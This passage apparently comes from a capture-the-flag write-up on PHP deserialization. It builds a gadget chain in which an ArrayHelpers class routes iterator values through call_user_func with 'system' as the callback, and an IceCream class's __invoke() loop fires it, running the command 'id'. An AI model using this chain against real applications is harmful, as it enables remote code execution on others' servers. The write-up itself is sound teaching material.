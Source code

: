 The function `current()` function simply returns the value of the array element that's currently being pointed to by the internal pointer. It does not move the pointer in any way. If the internal pointer points beyond the end of the elements list or the array is empty, `current()` returns false. 
in this function we have `call_user_func` that takes 2 parameters, a callable `$callback` and a  mixed `$argument`
Calls the callback given by the first parameter and passes the remaining parameters as arguments.  
so from here now we might possibly have rce not only with a no param function like phpinfo, but with one line system(), shell_exec etc 

so our crafted ArrayHelper class will besomething like this
```php
namespace Helpers{
    use \ArrayIterator;

    class ArrayHelpers extends ArrayIterator
    {
        public $callback = "system";  

        public function current()
        {
            $value = parent::current();  // Fetches the current value of the iterator
            call_user_func($this->callback, $value);  // Calls the function with $value as argument
            return $value;
        }
    }
}
```
##### Adding IceCream class to the Chain
The IceCream class serves as a connector between the Spaghetti object and the ArrayHelpers object. It uses the `__invoke()` magic method to iterate over the `$flavors` property:

```php
class IceCream
{
    public $flavors;

    public function __construct()
    {   
        $this->flavors = new Helpers\ArrayHelpers(["id"]);  // Initializes the iterator with the command "id"
    }

    public function __invoke()
    {   
        foreach ($this->flavors as $flavor) {  // Loops through $flavors
            echo $flavor;                     // Executes the `current()` method in ArrayHelpers
        }
    }
}
```
Key Observations

1. __invoke()
    - This magic method is triggered when the object is called as if it were a function. For example: $iceCream().
    - Inside `__invoke()`, the foreach loop iterates over `$flavors`.
